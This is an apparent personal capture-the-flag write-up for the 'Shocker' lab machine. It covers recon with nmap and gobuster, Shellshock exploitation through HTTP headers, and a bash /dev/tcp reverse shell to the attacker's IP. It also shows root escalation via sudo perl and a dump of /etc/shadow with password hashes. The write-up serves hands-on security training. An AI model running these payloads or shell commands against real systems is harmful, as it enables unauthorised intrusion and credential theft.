


# 00 - Loot

Credentials:

| Service | Username | Password | Found at |
| ------- | -------- | -------- | -------- |
|         |          |          |          |
|         |          |          |          |
|         |          |          |          |

Valid Usernames

```

```

Emails

```

```

...

# 10 - Reconnaissance

## Port scanning - Nmap

### TCP

A full TCP scan discovers two open ports: an Apache web server on port 80 and SSH on port 2222.

```shell
→ kali@kali «shocker» «10.10.14.83» 
$ nmap -p- -sV -oA nmap/10-tcp-allport-shocker 10.10.10.56 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 20:24 EDT
Nmap scan report for 10.10.10.56
Host is up (0.065s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.00 seconds
```


### UDP

Top 20 TCP

# 15 - Enumeration

## TCP 80 - Website

The site serves only one a text and an image.


### Accept-Ranges Header

The server response contains uncommon  Header called `Accept-Ranges`. According to [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Range_requests#requesting_a_specific_range_from_a_server), this header is allows us to control the portion of the HTTP message. 

```shell
→ kali@kali «exploits» «10.10.14.83» 
$ curl -I http://10.10.10.56
HTTP/1.1 200 OK
Date: Sun, 11 Jul 2021 00:49:51 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Fri, 22 Sep 2017 20:01:19 GMT
ETag: "89-559ccac257884"
Accept-Ranges: bytes
Content-Length: 137
Vary: Accept-Encoding
Content-Type: text/html
```

If I send a request for the first 50 bytes of contents, it returns partial content, which in this case the response doesn't contains image anymore.



If I start with other than 0, it returns weird response.



### Gobuster

Gobuster scan finds two directories:  `/cgi-bin/` and `/icons`

```
→ kali@kali «shocker» «10.10.14.83» 
$ gobuster dir -u http://10.10.10.56/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o gobuster/gobuster-S-80 -f         
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2021/07/10 20:26:07 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
...[SNIP]...
```

Another scan on `/cgi-bin/` discovers a file called `users.sh`

```
→ kali@kali «shocker» «10.10.14.83» 
$ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o gobuster/gobuster-cgi-bin -f -x cgi,sh
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi,sh
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2021/07/10 21:43:04 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 125]
...[SNIP]...
```

It returns the following contents.

```
→ kali@kali «shocker» «10.10.14.83» 
$ curl -s http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 21:46:09 up 1 day, 20:28,  0 users,  load average: 0.00, 0.01, 0.00

```

According to the box name, `/cgi-bin/` folder which contains a bash script, it's going to be shellshock vulnerability.

# 20 - Foothold

## Shellshock (CVE-2014-6271)

The Shellshock vulnerability is very well-explained in [this PentesterLab course](https://pentesterlab.com/exercises/cve-2014-6271/course), and it's free.

I tried the commonly used PoC for shellshock and it worked on User-Agent

```
(){:}; echo; <bash command>
```


I test it on the `Accept`, and surprisingly it worked (I'm shocked 😄).


### Reverse Shell

I tried to get a shell but somehow it didn't connect back, but then I figured out why after redirecting stderr to stderr, it wanted a full path!


The installed `nc` doesn't have `-e`


The reverse shell works using the following command:

```shell
() { :;}; echo; echo "/bin/bash -i >& /dev/tcp/10.10.14.83/53 0>&1" | /bin/bash
```


I'll upgrade my shell.

```shell
shelly@Shocker:/usr/lib/cgi-bin$ export TERM=xterm
export TERM=xterm
shelly@Shocker:/usr/lib/cgi-bin$ script /dev/null -c bash                    
script /dev/null -c bash
Script started, file is /dev/null
shelly@Shocker:/usr/lib/cgi-bin$ ^Z
[1]  + 7339 suspended  nc -nvlp 53
→ kali@kali «shocker» «10.10.14.83» 
$ stty raw -echo; fg
[1]  + 7339 continued  nc -nvlp 53

shelly@Shocker:/usr/lib/cgi-bin$  
```

And grab the user flag.

```shell
shelly@Shocker:/home/shelly$ ls -l 
total 8
drwxr-xr-x 2 shelly shelly 4096 Jul 10 03:31 test
-r--r--r-- 1 root   root     33 Jul  9 01:17 user.txt
shelly@Shocker:/home/shelly$ cat user.txt 
7ac9eb73e6cb...[SNIP]...
```

# 25 - Privilege Escalation

## Sudo Privileges

A quick check on sudo rights reveals that user `shelly` can run `perl` with `sudo`.

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Using [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo) as reference, I can escalate myself to root.

```
shelly@Shocker:/home/shelly$ sudo -u root perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# id && hostname
uid=0(root) gid=0(root) groups=0(root)
Shocker
root@Shocker:/home/shelly#
```

The root flag:

```shell
root@Shocker:~# cat root.txt
e3689b13acb2...[SNIP]...
```


# 30 - Post-Exploit

Shadow

```
root@Shocker:/home/shelly# cat /etc/shadow
root:$6$BVgS5ne0$Q6rV3guK7QQUy7uRMwbQ3vv2Y5I9yQUhIzvrIhuiDso/o5UfDxZw7MMq8atR3UdJjhpkFVxVD0cVtjXQdPUAH.:17431:0:99999:7:::
...[SNIP]...
shelly:$6$aYLAoDIC$CJ8f8WSCT6GYmbx7x8z5RfrbTG5mpDkkJkLW097hoiEw3tqei2cE7EcUTYdJTVMSa3PALZeBHjhiFR8Ba5jzf0:17431:0:99999:7:::
```


# 35 - Playing with CGI

```
root@Shocker:/usr/lib/cgi-bin# echo -e '#!/bin/bash\necho test\nenv' > iamf.sh
root@Shocker:/usr/lib/cgi-bin# chmod +x iamf.sh 
```

Interestingly, it exports my custom header and turns it into environment variable.


The full response

```shell
HTTP/1.1 200 OK

Date: Sun, 11 Jul 2021 03:06:31 GMT

Server: Apache/2.4.18 (Ubuntu)

Connection: close

Content-Type: text/x-sh

Content-Length: 1113


iamf
test
SERVER_SIGNATURE=<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>

HTTP_USER_AGENT=Blackhole
SERVER_PORT=80
HTTP_HOST=10.10.10.56
DOCUMENT_ROOT=/var/www/html
SCRIPT_FILENAME=/usr/lib/cgi-bin/iamf.sh
REQUEST_URI=/cgi-bin/iamf.sh
SCRIPT_NAME=/cgi-bin/iamf.sh
HTTP_CONNECTION=close
REMOTE_PORT=58222
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HTTP_IF_NONE_MATCH="89-559ccac257884-gzip"
CONTEXT_PREFIX=/cgi-bin/
PWD=/usr/lib/cgi-bin
SERVER_ADMIN=webmaster@localhost
REQUEST_SCHEME=http
HTTP_IF_MODIFIED_SINCE=Fri, 22 Sep 2017 20:01:19 GMT
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
REMOTE_ADDR=10.10.14.83
SHLVL=1
SERVER_NAME=10.10.10.56
CONTENT_LENGTH=0
SERVER_SOFTWARE=Apache/2.4.18 (Ubuntu)
QUERY_STRING=
SERVER_ADDR=10.10.10.56
GATEWAY_INTERFACE=CGI/1.1
HTTP_UPGRADE_INSECURE_REQUESTS=1
SERVER_PROTOCOL=HTTP/1.1
HTTP_CACHE_CONTROL=max-age=0
HTTP_ACCEPT_ENCODING=gzip, deflate
REQUEST_METHOD=GET
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
HTTP_IAMF_HEADER=() {  :
}
_=/usr/bin/env

```


# 90 - Summary

Foothold: 

- 
- 

Privilege Escalation:

- 
- 

# 99 - Trial-error/Try list

> What to put here:
>
> - Options you want to try (upper=highest priority, lower=try later)
> - Track things you have tried but failed.
> - Tips/Trick you learned during completing the box.
> - Take a rest if you keep putting/looking your note in here for more than 45 minutes.